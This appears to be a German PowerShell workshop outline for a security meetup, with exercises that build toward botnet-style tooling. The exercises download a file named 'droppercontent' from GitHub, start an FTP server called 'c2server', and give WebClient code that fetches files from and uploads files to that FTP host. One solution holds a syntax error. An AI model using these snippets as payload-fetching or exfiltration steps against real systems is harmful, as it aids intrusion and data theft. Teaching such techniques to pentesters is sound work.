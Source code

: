 # Motivation
 
 Ziel: Workshop Powershell
 
 Rahmen: Security Meetup öffentliche Veranstaltung
 Publikum: Pentester, Admins, Entwickler
 
 (Optionales Ziel: Botnetz entwickeln)
 
# Ablauf
 
 Wie findet man sich zurecht in Powershell wenn man von Linux kommt
 
 Theorie-Praxis-Theorie-Praxis...
 
# Powershell zum Laufen bekommen
 
 Linux: snap
 Windows: vorinstalliert
 
# Hello World
 
## Übungsbeschreibung
 
 Gib "Ich bin der L77t H4x0r" auf dem Bildschirm aus
 
## Hilfe
 Get-Help, alias
 
## Lösung 
 echo "Ich bin der L77t H4x0r"
 
# Datei zwischenspeichern
 
## Übungsbeschreibung
 
 Schreibe "I was here, I pwnd your system, muahaha" in eine Datei info.txt
 
## Hilfe
 Nutze Google "Write string to file powershell"

## Lösung

"I was here, I pwnd your system, muahaha" | Out-File .\info.txt

# Datei auslesen 
 
## Übungsbeschreibung
 
 Lies die Datei info.txt aus und gib sie auf dem Bildschirm aus
 
 ## Lösung

# Datei herunterladen

## Übungsbeschreibung
Lade folgende Datei über powershell herunter
https://raw.githubusercontent.com/secf00tprint/powershellworkshop/main/droppercontent

## Hilfe
Recherchiere zu der System.Net.WebClient Klasse

# Datei über ftp herunterladen

## Übungsbeschreibung
https://hub.docker.com/r/garethflowers/ftp-server
fahre folgenden ftp server hoch mit folgendem Befehl.

docker run \
	--name c2server \
	--detach \
	--env FTP_USER=c2cmdgod \
	--env FTP_PASS=c2cmdgod \
	--network host \
	--volume /data:/home/user \
	garethflowers/ftp-server


## Hilfe
Schaue dir die System.Net.WebClient Klasse in bezug auf ftp an

## Beispiellösungen 
$file = "C:\test.txt"
$ftpuri = "ftp://test:123qwe@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.DownloadFile($uri, $file)

$file = "C:\test.txt"
$password="test"
$user="123qwe"
$ftpuri = "ftp://"+ $user +":"+ $password + "@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.DownloadFile($uri, $file)

# Datei über ftp hochladen

## Übungsbeschreibung 
Lade über das ftp protokoll folgende Datei vom beigelieferten vsftp server hoch:

## Hilfe
Ähnliches vorgehen wie in vorangegangener Aufgabe.

## Beispiellösung

$file = "C:\test.txt"
$password"test"
$user="123qwe"
$ftpuri = "ftp://"+ $user +":"+ $password + "@192.168.2.222/test.txt"
$webclient = New-Object System.Net.WebClient
$uri = New-Object System.Uri($ftpuri)
$webclient.UploadFile($uri, $file)

# timing Aufgaben



